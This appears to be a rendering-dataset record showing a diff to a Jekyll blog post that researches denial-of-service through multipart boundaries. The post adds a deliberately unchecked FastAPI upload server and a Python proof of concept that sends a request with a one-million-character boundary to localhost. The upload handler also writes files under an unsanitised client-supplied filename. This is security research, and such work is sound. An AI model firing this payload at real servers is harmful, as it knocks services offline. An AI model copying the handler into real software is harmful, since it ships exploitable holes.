

Before and after one commit to KevinKien/KevinKien.github.io, a Jekyll site: the page built from all_collections/_posts/2024-10-30-Research-DoS-Vulnerability-via-Multipart-Form-Data.md, in a window 1280 px wide and 1400 px high, scrolled down 2428 px. Shown: the whole window, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3058 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2024-10-30-Research-DoS-Vulnerability-via-Multipart-Form-Data.md

````diff
--- a/all_collections/_posts/2024-10-30-Research-DoS-Vulnerability-via-Multipart-Form-Data.md
+++ b/all_collections/_posts/2024-10-30-Research-DoS-Vulnerability-via-Multipart-Form-Data.md
@@ -75,3 +75,66 @@
 ```
 
 # Scenario 2: DoS via multipart boundry
+
+Multipart boundry is a part in the form upload file, If boundry not handle correctly will cause server use very much CPU and Mem to handle. This is can lead to dos vulnerability.
+
+I will use code upload above with not check any boundry when perform upload.
+
+```
+from fastapi import FastAPI, File, UploadFile, HTTPException
+import uvicorn
+import os
+
+app = FastAPI()
+
+UPLOAD_DIR = "./uploads"
+os.makedirs(UPLOAD_DIR, exist_ok=True)
+
+@app.post("/upload/")
+async def upload_file(file: UploadFile = File(...)):
+    # read and save file
+    try:
+        file_location = os.path.join(UPLOAD_DIR, file.filename)
+        with open(file_location, "wb") as buffer:
+            buffer.write(await file.read())
+        return {"filename": file.filename}
+    except Exception as e:
+        raise HTTPException(status_code=500, detail="Error saving file")
+
+if __name__ == "__main__":
+    uvicorn.run(app, host="0.0.0.0", port=8000)
+```
+
+With POC, i will create boundary have 1 million character and after change boundary to form-data.
+
+```
+import requests
+
+def dos_attack_boundary():
+    url = "http://localhost:8000/upload/"
+
+    # Create long boundary with 1 million character.
+    long_boundary = "-" * 1000000
+
+    # set header for boundary
+    headers = {
+        "Content-Type": f"multipart/form-data; boundary={long_boundary}"
+    }
+
+    data = (
+        f"--{long_boundary}\r\n"
+        f'Content-Disposition: form-data; name="file"; filename="dos_test.txt"\r\n'
+        f"Content-Type: text/plain\r\n\r\n"
+        f"This is a test file content.\r\n"
+        f"--{long_boundary}--\r\n"
+    )
+
+    # Send request upload file with long boundrary
+    response = requests.post(url, data=data, headers=headers)
+
+    print("Status Code:", response.status_code)
+    print("Response:", response.text)
+
+if __name__ == "__main__":
+    dos_attack_boundary()
+```
````
